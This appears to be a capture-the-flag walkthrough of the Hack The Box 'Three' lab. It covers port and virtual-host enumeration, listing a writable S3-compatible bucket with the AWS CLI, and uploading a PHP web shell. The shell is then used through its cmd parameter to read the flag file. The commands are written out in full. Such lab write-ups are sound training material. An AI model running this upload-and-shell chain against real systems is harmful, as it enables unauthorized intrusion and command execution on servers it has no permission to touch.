







Scanning the target
I began with a full TCP port scan to identify the services exposed by the target. The scan revealed HTTP on port 80 and SSH on port 22.
nmap -p- <TARGET_IP>
Full TCP enumeration revealing HTTP on port 80 and OpenSSH 7.6p1 on port 22.
Port 80 exposed the web application while port 22 was running OpenSSH 7.6p1. The HTTP service became the primary target for further enumeration.
Identifying the hostname
I then investigated the network path to the target. The traceroute results revealed a hostname associated with the target IP, giving me an important clue for web enumeration.

Traceroute revealing the thetoppers.htb hostname associated with the target.
I added the discovered hostname to my local hosts configuration so that the web application could be accessed using its domain name.
The target was associated with thetoppers.htb. This hostname became the base domain for further web and virtual host enumeration.
Fingerprinting the web application
With the hostname identified, I used WhatWeb to fingerprint the application and determine the technologies running behind the HTTP service.
whatweb http://thetoppers.htb/The response identified Apache 2.4.29 running on Ubuntu and a PHP-based application titled The Toppers.
I then performed directory enumeration to identify accessible files and directories on the web server.
gobuster dir -u http://thetoppers.htb -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt
Gobuster enumerating directories and files exposed by the web application.
The web server exposed index.php and an images/ directory. The PHP application provided the main web attack surface for further enumeration.
Discovering the S3 virtual host
Since the target domain was known, I performed virtual host enumeration to identify additional services hosted under the same domain.
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://thetoppers.htb --append-domain
Virtual host enumeration identifying s3.thetoppers.htb.
The enumeration revealed s3.thetoppers.htb. The host returned a different response from the invalid virtual hosts, indicating that it was associated with an active service.
I added s3.thetoppers.htb to
/etc/hosts so the hostname would resolve
correctly from my attacking machine.

The discovered S3 virtual host responding successfully to requests.
s3.thetoppers.htb exposed an S3-compatible API. This introduced a second attack surface involving cloud-style object storage.
Enumerating the storage service
I installed and configured the AWS CLI so I could interact directly with the S3-compatible endpoint.
sudo apt install awscli
aws configureI then enumerated the available buckets and inspected the contents of the target bucket.
aws --endpoint=http://s3.thetoppers.htb s3 ls
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
Enumerating the S3 bucket and discovering files including .htaccess and index.php.
I also tested whether objects could be downloaded from the bucket.
aws --endpoint=http://s3.thetoppers.htb s3 cp s3://thetoppers.htb/index.php .An API-based alternative for listing objects was also available:
aws s3api list-objects \
--bucket thetoppers.htb \
--endpoint-url http://s3.thetoppers.htbThe bucket exposed application files and could be interacted with directly through the S3-compatible endpoint.
Testing write access
After confirming that files could be retrieved, I tested whether the bucket also permitted uploads. This was important because the main web application was running PHP.
aws --endpoint=http://s3.thetoppers.htb s3 cp test.txt s3://thetoppers.htb/test.txtSuccessful upload access meant that files could be placed into the S3 bucket directly. I then used this capability to upload a PHP command shell.
The S3 bucket was writable. Because the target application used PHP, this provided a potential route from unrestricted file upload to server-side command execution.
Uploading a PHP command shell
I uploaded a PHP command shell named
ozz.php into the writable S3 bucket.
The shell accepted commands through a
cmd parameter.
aws s3 cp ozz.php s3://thetoppers.htb --endpoint-url http://s3.thetoppers.htbOnce the file was uploaded, it could be accessed through the web application and used to execute commands on the target.
A writable S3 bucket combined with a PHP web application allowed the uploaded PHP file to be used for remote command execution.
Retrieving the flag
With the command shell uploaded, I used the
cmd parameter to execute a command that
reads the flag from the parent directory.
ozz.php?cmd=cat ../flag.txt
Executing a command through the uploaded PHP shell to retrieve flag.txt.
The command shell successfully retrieved the flag, completing the Three machine.
Lessons from Three
Three reinforced the importance of expanding web enumeration beyond the main hostname. Virtual host enumeration exposed s3.thetoppers.htb, revealing an additional S3-compatible service that became the key to the attack chain.
The machine also demonstrated how dangerous writable cloud storage can become when it is connected to a server-side application. The ability to upload a PHP file transformed a storage misconfiguration into command execution on the target.
The attack chain was: port enumeration → hostname discovery → web enumeration → virtual host discovery → S3 enumeration → writable bucket → PHP upload → command execution → flag retrieval.
Tools used
The main tools and techniques used throughout the exercise were:
- Nmap — full TCP port enumeration
- Traceroute — identifying hostname information
- WhatWeb — web technology fingerprinting
- Gobuster — directory and virtual host enumeration
- AWS CLI — S3 bucket and object enumeration
- S3 — object storage enumeration and file upload
- PHP — server-side command execution
Related resources
The resources below cover the machine and the reconnaissance, virtual host, S3 and file upload techniques used during the exercise.